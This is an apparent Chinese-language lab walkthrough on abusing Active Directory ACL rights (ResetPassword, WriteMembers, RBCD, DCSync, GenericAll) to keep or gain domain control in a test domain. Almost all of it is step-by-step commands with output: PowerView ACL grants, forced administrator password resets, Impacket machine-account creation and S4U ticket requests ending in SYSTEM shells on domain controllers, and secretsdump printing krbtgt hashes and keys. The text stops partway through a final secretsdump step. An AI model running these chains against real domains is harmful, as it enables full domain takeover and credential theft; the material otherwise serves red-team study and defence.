



1. 属性权限

member：拥有该属性的权限，可以将任意用户、组、机器加入到目标安全组中。

msDS-AllowedToActOnBehalfOfOtherIdentity：可以修改目标RBCD，进行攻击获取目标的权限。

2. 拓展权限

DCSync：拥有该拓展权限，可以通过目录复制服务，获取任意用户密码Hash

User-Force-Change-Password：可以强制修改用户密码

3. 基本权限

GenericWrite：拥有该权限，可以修改目标安全对象的所有参数和属性

GenericAll：等于拥有对目标安全对象的完整控制权

WriteOwner：可以修改目标安全对象的Owner属性为自身，从而完全控制该安全对象

WriteDACL：可以往目标安全对象写入任何的ACE，从而完成控制该安全对象

请注意，下面实验是直接添加权限，会被 AdminSDHolder  一小时后被覆盖掉

# 一、User-Force-change-Password拓展对象
普通域用户hack只能修改自己的密码，不能修改其他人的密码

```plain
C:\Users\hack\Desktop>.\AdMod.exe -users -rb cn=test3 unicodepwd::Az123456@ -opt
enc

AdMod V01.28.00cpp Joe Richards (support@joeware.net) October 2023

DN Count: 1
Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019
Base DN: cn=test3,CN=Users,DC=sec,DC=local

Modifying specified objects...
   DN: cn=test3,CN=Users,DC=sec,DC=local...: [Win2019-DC1.sec.local] Error 0x32
(50) - Insufficient Rights

ERROR: Too many errors encountered, terminating...

The command did not complete successfully.

C:\Users\hack\Desktop>

```

假如获得了域管权限，并进行权限维持，可以手动给用户hack添加重置administrator密码的权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Import-Module .\powerview.ps1
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity administrator -PrincipalIdentity hack -Rights ResetPassword -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=hack)(name=hack)(displayname=hack))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=administrator)(name=administrator)(displayname=administrator))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local 'ResetPassword' on
CN=Administrator,CN=Users,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local rights GUID
'00299570-246d-11d0-a768-00aa006e0529' on CN=Administrator,CN=Users,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

AdFind查询

```plain
PS C:\Users\Administrator\Downloads> .\AdFind.exe -s base -b "CN=Administrator,CN=Users,DC=sec,DC=local" nTSecurityDescriptor -sddl+++ -sddlfilter ";;;;;sec\hack"

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.1)

dn:CN=Administrator,CN=Users,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Reset Password;;SEC\hack
>nTSecurityDescriptor: [DACL] ALLOW;;[FC];;;SEC\hack

1 Objects returned
PS C:\Users\Administrator\Downloads>
```

重置administrator的密码

```plain
C:\Users\hack\Desktop>.\AdMod.exe -users -rb cn=administrator unicodepwd::Az123456@ -optenc

AdMod V01.28.00cpp Joe Richards (support@joeware.net) October 2023

DN Count: 1
Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019
Base DN: cn=administrator,CN=Users,DC=sec,DC=local

Modifying specified objects...
   DN: cn=administrator,CN=Users,DC=sec,DC=local...

The command completed successfully.
```

# 二、member属性
test3是普通域用户，所以没有往Domain Admins组添加用户的权限

```plain
C:\Users\test3>net group "domain admins" test2 /add /domain
The request will be processed at a domain controller for domain sec.local.

System error 5 has occurred.

Access is denied.
```

假设获得了域管权限，添加用户test3对Domain Admins组的WriteMembers权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity test3 -R
ights WriteMembers -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=Domain Admins)(name=Domain
Admins)(displayname=Domain Admins))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'WriteMembers' on CN=Domain
Admins,CN=Users,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'bf9679c0-0de6-11d0-a285-00aa003049e2' on CN=Domain Admins,CN=Users,DC=sec,DC=local
```

未知原因，Add-DomainObjectAcl添加的权限并不会生效



adfind查询

```plain
PS C:\Users\Administrator.SEC\Downloads> .\AdFind.exe -b "CN=Domain Admins,CN=Users,DC=sec,dc=local" nTSecurityDescripto
r -sddl+++ -sddlfilter ";;;sec\test3"

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2016-DC2.sec.local:389
Directory: Windows Server 2016

dn:CN=Domain Admins,CN=Users,DC=sec,DC=local

1 Objects returned
```

但是如果通过GUI界面添加Write Members权限，则能成功



```plain
C:\Users\test3\Desktop>net group "Domain Admins" hack /add /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.

C:\Users\test3\Desktop>
```

# 三、msDS-AllowedToActOnBehalfOfOtherIdentity属性权限
可以修改目标RBCD，进行攻击获取目标的权限。

默认情况下，test3用户无权对域控进行RBCD

admod添加权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "CN=WIN2019-DC1,OU=Domain Controllers,DC=se
c,DC=local" -PrincipalIdentity test3 -RightsGUID 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79 -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'sec.local' from 'CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local'
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=sec,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=WIN2019-DC1,OU=Domain
Controllers,DC=sec,DC=local)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on CN=WIN2019-DC1,OU=Domain
Controllers,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' on CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

adfind验证

```plain
PS C:\Users\Administrator.SEC\Downloads> .\AdFind.exe -b "CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local" nTSecuri
tyDescriptor -sddl+++ -sddlfilter ";;;;;sec\test3" -recmute

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2016-DC2.sec.local:389
Directory: Windows Server 2016

dn:CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];msDS-AllowedToActOnBehalfOfOtherIdentity;;SEC\test3
>nTSecurityDescriptor: [DACL] ALLOW;[CONT INHERIT][INHERITED];[LIST CHILDREN][READ PROP][WRT PROP][READ PERMS][WRT PERMS];;;SEC\test3

dn:CN=DFSR-LocalSettings,CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] ALLOW;[CONT INHERIT][INHERITED];[LIST CHILDREN][READ PROP][WRT PROP][READ PERMS][WRT PERMS];;;SEC\test3

dn:CN=Domain System Volume,CN=DFSR-LocalSettings,CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] ALLOW;[CONT INHERIT][INHERITED];[LIST CHILDREN][READ PROP][WRT PROP][READ PERMS][WRT PERMS];;;SEC\test3

dn:CN=SYSVOL Subscription,CN=Domain System Volume,CN=DFSR-LocalSettings,CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] ALLOW;[CONT INHERIT][INHERITED];[LIST CHILDREN][READ PROP][WRT PROP][READ PERMS][WRT PERMS];;;SEC\test3

dn:CN=RID Set,CN=WIN2019-DC1,OU=Domain Controllers,DC=sec,DC=local
>nTSecurityDescriptor: [DACL] ALLOW;[CONT INHERIT][INHERITED];[LIST CHILDREN][READ PROP][WRT PROP][READ PERMS][WRT PERMS];;;SEC\test3

5 Objects returned
```

添加机器账户，rbcd，getST

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/addcomputer.py sec.local/test3:"Az123456@" -dc-ip 10.10.4.2 -computer-name cmp4 -computer-pass "Az123456@" -method SAMR -debug
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket
[*] Opening domain SEC...
[*] Successfully added machine account cmp4$ with password Az123456@.

(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/rbcd.py -delegate-from cmp3\$ -delegate-to WIN2019-DC1\$ -dc-ip 10.10.4.2 -action write sec.local/test3:"Az123456@" -debug
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket
[+] Initializing domainDumper()
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-2066713137-2133816201-3751750268-1161
[-] SID not found in LDAP: S-1-5-21-2066713137-2133816201-3751750268-1161
[*] Delegation rights modified successfully!
[*] cmp3$ can now impersonate users on WIN2019-DC1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-2066713137-2133816201-3751750268-1161
[-] SID not found in LDAP: S-1-5-21-2066713137-2133816201-3751750268-1161
[*]     cmp3$        (S-1-5-21-2066713137-2133816201-3751750268-1196)

(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/getST.py -dc-ip 10.10.4.2 -spn cifs/WIN2019-DC1.sec.local -impersonate administrator sec.local/cmp3\$:"Az123456@"
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_WIN2019-DC1.sec.local@SEC.LOCAL.ccache

(base) ┌──(root㉿Kali)-[~]
└─# export KRB5CCNAME=administrator@cifs_WIN2019-DC1.sec.local@SEC.LOCAL.ccache

```

最后测试

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/smbexec.py -no-pass -k WIN2019-DC1.sec.local
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit

```

# 四、DCSync 权限
拥有 DCSync 权限的用户可以通过目录复制服务 GetNCChanges 接口向域控发起数据同步请求，获取任意密码 Hash。

实际上就是拥有Replicating Directory Changes 和Replicating Directory Changes All 两个拓展属性的权限

默认情况下，域用户 test3 无权导出 Hash

假设获取了域管权限，对用户 test3 添加 DCSync 权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Import-Module .\powerview.ps1
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "DC=sec,DC=local" -PrincipalIdentity test3
-Rights DCSync -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'sec.local' from 'DC=sec,DC=local'
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=sec,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=DC=sec,DC=local)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'DCSync' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'89e95b76-444d-4c62-991a-0facbeda640c' on DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

AdFind 查询

```plain
PS C:\Users\Administrator.SEC\Downloads> .\AdFind.exe -b "DC=sec,DC=local" nTSecurityDescriptor -sddl+++ -sddlfilter ';;
;"Replicating Directory Changes";;sec\test3' -recmute

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2016-DC2.sec.local:389
Directory: Windows Server 2016

dn:DC=sec,DC=local
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes In Filtered Set;;SEC\test3
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes;;SEC\test3
>nTSecurityDescriptor: [DACL] OBJ ALLOW;;[CTL];Replicating Directory Changes All;;SEC\test3

1 Objects returned
PS C:\Users\Administrator.SEC\Downloads>
```

secretdump

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/secretsdump.py sec.local/test3:"Az123456@"@10.10.4.7 -just-dc-user "sec\krbtgt"
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1258230d20deb8fa8c0ee72e014ae813:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
krbtgt:aes128-cts-hmac-sha1-96:48387c994c399862ae5ef5a7c86f0c8e
krbtgt:des-cbc-md5:512a436789e32394
[*] Cleaning up...

(base) ┌──(root㉿Kali)-[~]
└─#

```

# 五、GenericAll 权限
GenericAll 权限就是对任意用户，机器账号等完全控制权

## 1、应用于用户
给普通用户添加对管理员的 GenericAll 的权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "administrator" -PrincipalIdentity test3 -R
ights All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=administrator)(name=administrator)(displayname=administrator))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on
CN=Administrator,CN=Users,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'00000000-0000-0000-0000-000000000000' on CN=Administrator,CN=Users,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

尝试修改密码

```plain
C:\Users\test3\Desktop>net user administrator Az123456@ /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.

C:\Users\test3\Desktop>
```

## 2、应用于机器账户
给普通用户添加对Win2016-DC2的 GenericAll 的权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity Win2016-DC2 -PrincipalIdentity test3 -Right
s All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=Win2016-DC2)(name=Win2016-DC2)(displayname=Win2016-DC2))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on CN=WIN2016-DC2,OU=Domain
Controllers,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'00000000-0000-0000-0000-000000000000' on CN=WIN2016-DC2,OU=Domain Controllers,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on
CN=WIN2016-DC2,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID
'00000000-0000-0000-0000-000000000000' on CN=WIN2016-DC2,CN=Topology,CN=Domain System
Volume,CN=DFSR-GlobalSettings,CN=System,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

RBCD

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/addcomputer.py sec.local/test3:"Az123456@" -dc-ip 10.10.4.2 -computer-name cmp2 -computer-pass "Az123456@" -method LDAPS
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account cmp2$ with password Az123456@.

(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/rbcd.py -delegate-from cmp2\$ -delegate-to WIN2016-DC2\$ -dc-ip 10.10.4.7 -action write sec.local/test3:"Az123456@" -debug
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket
[+] Initializing domainDumper()
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] cmp2$ can now impersonate users on WIN2016-DC2$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     cmp2$        (S-1-5-21-2066713137-2133816201-3751750268-1195)

(base) ┌──(root㉿Kali)-[~]
└─#

```

以administrator身份申请一张访问cifs/WIN2016-DC2.sec.local的票据

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/getST.py -dc-ip 10.10.4.7 -spn cifs/WIN2016-DC2.sec.local -impersonate administrator sec.local/cmp2\$:"Az123456@"
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_WIN2016-DC2.sec.local@SEC.LOCAL.ccache

(base) ┌──(root㉿Kali)-[~]
└─# export KRB5CCNAME=administrator@cifs_WIN2016-DC2.sec.local@SEC.LOCAL.ccache
```

远程连接域控

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/smbexec.py -no-pass -k WIN2016-DC2.sec.local
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

## 3、应用于组
普通域用户 test3 无权对 Domain Admins 组进行修改

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "domain admins" -PrincipalIdentity test3 -Rights All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=domain admins)(name=domain admins)(displayname=domain
admins))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on CN=Domain Admins,CN=Users,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID '00000000-0000-0000-0000-000000000000' on
CN=Domain Admins,CN=Users,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

测试

```plain
C:\Users\test3\Desktop>net group "Domain Admins" hack /del /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.
```

##  4、应用于域
默认普通域用户 test3 无权对整个域有权限

```plain
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "DC=sec,DC=local" -PrincipalIdentity test3 -Rights All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=test3)(name=test3)(displayname=test3))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'sec.local' from 'DC=sec,DC=local'
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=sec,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=DC=sec,DC=local)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local 'All' on DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=test3,CN=Users,DC=sec,DC=local rights GUID '00000000-0000-0000-0000-000000000000' on
DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

测试

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/secretsdump.py sec.local/test3:"Az123456@"@10.10.4.7 -just-dc-user "sec\krbtgt"
